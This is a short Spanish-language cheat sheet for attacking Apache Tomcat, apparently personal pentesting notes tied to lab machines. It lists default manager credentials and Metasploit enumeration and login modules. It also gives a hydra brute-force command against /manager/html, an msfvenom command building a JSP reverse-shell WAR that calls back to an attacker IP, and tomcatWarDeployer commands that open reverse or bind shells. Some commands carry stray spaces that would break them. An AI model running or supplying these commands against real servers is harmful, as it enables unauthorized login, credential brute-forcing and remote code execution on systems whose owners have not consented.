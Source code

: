# EXPLOITING APACHE TOMCAT
ejemplo de explotacion: [[BLACKBOX 1]]

[[Tomcat Explotation]]

**posible enumeracion de usuarios segun la version**

```bash
use auxiliary/scanner/http/tomcat_enum
```

**credenciales por defecto**

-   admin:admin
-   tomcat:tomcat
-   admin:\<NOTHING\>
-   admin:s3cr3t
-   tomcat:s3cr3t
-   admin:tomcat

podemos probar esto con mas valores usando este auxiliar:

```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

Otra ruta **interesante de Tomcat** es **/manager/status** , donde puede ver la versión del sistema operativo y Tomcat. Esto es útil para encontrar vulns que afecten a la versión de Tomcat cuando no puede acceder a **	/manager/html**

**fuerza bruta con hydra**

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

**payload war**

```bash
msfvenom -p java / jsp_shell_reverse_tcp LHOST = 10.11 .0.41 LPORT = 80 -f war -o revshell.war
```

**tomcatWarDeployer.py**

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git

./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/

./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```